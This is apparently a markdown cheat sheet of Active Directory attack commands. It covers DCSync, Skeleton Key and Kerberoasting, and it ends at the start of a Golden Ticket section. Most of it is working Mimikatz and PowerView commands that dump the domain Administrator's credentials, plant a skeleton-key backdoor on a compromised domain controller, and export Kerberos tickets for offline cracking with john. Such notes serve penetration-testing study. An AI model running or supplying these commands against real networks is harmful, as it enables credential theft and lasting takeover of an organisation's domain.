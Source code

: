 ```
ab.cd.local - Get-DomainSID
cd.local - Get-DomainSID -Domain cd.local
```

## DCSync

Remember the **privilege::debug** and **token::elevate**

```ps1
Invoke-Mimikatz -Command "privilege::debug" "token::elevate" "lsadump::dcsync /domain:ab.cd.local /user:Administrator" "exit"
```

## Skeleton Key 

Just got working with the exe

This commands on the DC box, after owned it

```ps1
./mimkatz.exe
privilege::debug
token::elevate
misc::skeleton
```

## Kerberoast

First, check the users with SPN

```ps1
Get-NetUser -SPN
```

Request the Ticket

```ps1
Request-SPN Ticket SPN/ab.cd.local
```

Export the Ticket

```ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

Now, crack with john

```ps1
kirbi2john.py
```

## Golden Ticket

Two kinds, the Across Trusts and Domain

### Across Trusts
